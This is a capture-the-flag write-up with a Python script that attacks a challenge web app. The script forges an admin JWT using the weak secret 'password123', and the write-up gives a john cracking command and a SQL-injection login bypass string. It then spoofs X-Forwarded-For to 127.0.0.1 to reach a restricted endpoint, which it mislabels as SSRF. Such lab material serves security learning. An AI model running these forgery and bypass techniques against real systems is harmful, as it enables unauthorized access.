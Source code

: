 # CTF Challenge: Privilege Escalation and SSRF Exploit Walkthrough

## Overview
In this challenge, we'll explore how to exploit a weak JWT secret to escalate privileges from a regular user to an admin. After escalating privileges, we'll use Server-Side Request Forgery (SSRF) to access a restricted endpoint and retrieve the flag.

## Steps

### 1. Register a New User
We start by creating a new account with a username and password. The registration sets the default role as a `user`, but we will later escalate it to `admin` by modifying the JWT.

### 2. Log in and Retrieve the JWT Token
Next, we log in with the credentials we just created. or SQLi even works we ```<username>' /**\```. There is also a default user in the system with username "user". Upon successful login, the server issues a JWT token that includes our user role. We'll capture this token for modification.

### 3. Decode and Modify the JWT Token
With the JWT token in hand, we decode it to reveal the payload. The server uses a weak secret (`password123`), which we exploit to re-encode the token with `admin` privileges. Using this modified token, we can now access admin-only sections of the site.

### 4. Access the Profile Page
Now, we can use the modified JWT token to access the profile page. If successful, this will confirm that we have escalated our privileges.

### 5. Perform SSRF to Retrieve the Flag
On the profile page, we discover a new URL pointing to a restricted endpoint. By spoofing the `X-Forwarded-For` header to `127.0.0.1`, we can convince the server that the request originates from localhost, granting us access to the flag.

## Exploit Script
Here's the Python script that automates these steps:

```python
import requests
import hashlib
import jwt
from datetime import datetime, timedelta

# The base URL of the target application
BASE_URL = "http://codecon.cyberhacktivators.club:32868/"

# JWT Secret (you know from the challenge source)
JWT_SECRET = "password123"


# Register a new user
def register(username, password):
    url = f"{BASE_URL}/register"
    # Default role is 'user' but we can set it to admin and 
    # then no need to modify the JWT token
    data = {
        'username': username,
        'password': password,
        'role': 'user'
    }
    
    response = requests.post(url, data=data)
    if response.status_code == 200:
        print("[+] Registration successful.")
    else:
        print("[-] Registration failed.")
        exit()

# Login and fetch the JWT token
def login(username, password):
    session = requests.Session()
    url = f"{BASE_URL}/login"
    data = {
        'username': username,
        'password': password
    }
    response = session.post(url, data=data)
    print(response.headers)
    if response.status_code == 200:
        cookies = session.cookies.get_dict()
        set_cookie_header = session.headers.get('Set-Cookie')
        print("[+] Set-Cookie header: ", set_cookie_header)
        print("[+] Cookies: ", cookies)
        token = session.cookies.get('token')
        print("[+] Login successful. JWT Token fetched.")
        return token
    else:
        print("[-] Login failed.")
        exit()

# Decode the JWT token and modify it to become admin (JWT Secret is Bruteforceable as it is a weak secret)
# echo "TOKEN HERE" > jwt.txt
# john jwt.txt — wordlist=wordlist.txt(rockyou.txt) — format=HMAC-SHA256
def modify_jwt_token(token):
    try:
        decoded_token = jwt.decode(token, JWT_SECRET, algorithms=['HS256'])
        decoded_token['role'] = 'admin'  # Change role to admin
        # Regenerate the JWT with the modified payload
        new_token = jwt.encode({
            'username': decoded_token['username'],
            'role': 'admin',
            'exp': datetime.utcnow() + timedelta(hours=1)
        }, JWT_SECRET, algorithm='HS256')
        print("[+] JWT Token modified to admin role.")
        return new_token
    except Exception as e:
        print(f"[-] Failed to modify JWT token: {e}")
        exit()

# Fetch and print the profile URL after modifying the JWT token
def fetch_profile(new_token):
    url = f"{BASE_URL}/profile"
    headers = {'Cookie': f'token={new_token}'}
    response = requests.get(url, headers=headers)
    if response.status_code == 200:
        print("[+] Profile URL fetched successfully.")
        print(f"Profile URL: {response.text}")
    else:
        print(f"[-] Failed to fetch profile: {response.status_code}")
        exit()

# Perform SSRF to retrieve the flag from the restricted endpoint
def exploit_ssrf(new_token):
    url = f"{BASE_URL}/whtelseyouknow"
    headers = {
        'Cookie': f'token={new_token}',
        'X-Forwarded-For': '127.0.0.1'  # Spoof X-Forwarded-For to localhost
    }
    response = requests.get(url, headers=headers)
    if response.status_code == 200:
        print(f"[+] SSRF successful. Flag: {response.text}")
    else:
        print(f"[-] SSRF failed. Status code: {response.status_code}")
        print(response.text)

if __name__ == "__main__":
    # Set your username and password
    username = "hello123"
    password = "hello123"

    #Step 1: Register a new user
    register(username, password)

    # Step 2: Log in and get the original JWT token
    token = login(username, password)
    print(f"Original JWT Token: {token}")

    # Step 3: Modify the JWT token to have admin privileges
    new_token = modify_jwt_token(token)
    print(f"Modified JWT Token: {new_token}")

    # Step 4: Fetch the profile URL using the modified token
    fetch_profile(new_token)

    # Step 5: Exploit SSRF with X-Forwarded-For to retrieve the flag
    exploit_ssrf(new_token)
